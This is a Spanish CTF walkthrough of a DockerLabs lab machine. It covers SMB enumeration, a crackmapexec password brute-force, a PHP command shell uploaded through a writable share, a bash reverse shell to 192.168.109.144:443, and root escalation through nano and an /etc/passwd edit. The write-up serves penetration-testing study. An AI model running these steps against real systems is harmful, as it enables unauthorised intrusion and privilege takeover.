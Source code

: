 https://dockerlabs.es/
https://mega.nz/file/4GMGGYpa#-aSLPKJxpmrvHGYi4jqLYaEVXEdGRkdJQLxPCfRI9t8

## Desplegar el docker
![[Pasted image 20250521180754.png]]
![[Pasted image 20250521181012.png]]
TTL = 64 --> Linux/Unix

Una vez que sabemos que es una maquina Linux/Unix procedemos a ver que puertos tiene expuestos.
Para esto utilizaremos la herramienta `nmap`

`nmap -p- -sS -sC -sV --min-rate=5000 -n -vvv -Pn 172.17.0.2`

![[Pasted image 20250521181400.png]]
Vemos los siguientes puerto abiertos:
- `80` (HTTP)
- `139` (SAMBA)
- `445` (SAMBA)

![[Pasted image 20250521181806.png]]

Vamos a ver si podemos ver algo más de información en el servicio samba que tienen.

Si utilizamos la herramienta `smbmap`, permite enumerar y acceder a recursos compartidos SMB en una red, mostrando permisos y contenidos disponibles.

![[Pasted image 20250521182100.png]]
Vemos que por el puerto `139` no tiene nada pero en cambio por el `445` hay recursos los cuales no tenemos permisos.

Tenemos otra herramienta `rpcclient` la cual nos permite interactuar con servicios RPC, pudiendo facilitarnos la enumeración de usuario/grupos/politicas y recursos.

![[Pasted image 20250521182318.png]]
Gracias a esta herramienta ya podemos ver dos usuarios `bob` y `james`. Ya tenemos una pista de por donde tirar.

Parecen ser usuarios genericos por lo que vamos a hacer uso de la herramienta `crackmapexec` y el diccionario `rockyou` como hicimos en la maquina `-Pn` con `hydra`

`crackmapexec smb 172.17.0.2 -u bob -p /usr/share/wordlists/rockyou.txt`

Dejamos que haga su trabajo y al final nos da la contraseña correcta:
![[Pasted image 20250521183729.png]]

Las credenciales serían:
- User: bob
- Password: star

Volvemos a `smbmap` y comprobamos si tenemos permisos:

![[Pasted image 20250521183839.png]]

Podemos ver que tiene permiso de escritura y lectura en `html`
Ya sabemos de donde está pillando la web el `index.html` por lo que vamos a intentar hacer una reverse shell desde ese recurso.

Primero tenemos que dejar un cmd en el `index.html`
![[Pasted image 20250521184318.png]]

`smbclient //172.17.0.2/html -U bob`

Y poner el exploit.php

![[Pasted image 20250521184445.png]]

Nos ponemos en el puerto 443 a la escucha con `netcat` y lanzamos el siguiente comando
`http://172.17.0.2/cmd.php?cmd=bash -c "bash -i >%26 /dev/tcp/192.168.109.144/443 0>%261" `

Y ya tendríamos nuestra reverse shell
![[Pasted image 20250521184522.png]]

Cambiamos al usuario `bob`
![[Pasted image 20250521184622.png]]

Y miramos que permisos `bob` puede utilizar
![[Pasted image 20250521184707.png]]
La unica que nos podría interesar sería `nano` por lo que como en las anteriores maquinas vamos a ver si tiene lagun tipo de exploit.

Con una busqueda en gtfobins podemos escalar privilegios con este comando
`nano -s /bin/sh`
`/bin/sh`
`^T`

Si ejecutamos nano desde el binario y posteriormente modificamos `/etc/passwd` para que no se requiera contraseña al cambiar a `root`
![[Pasted image 20250521190007.png]]
![[Pasted image 20250521190027.png]]
Ya tenemos acceso `root`
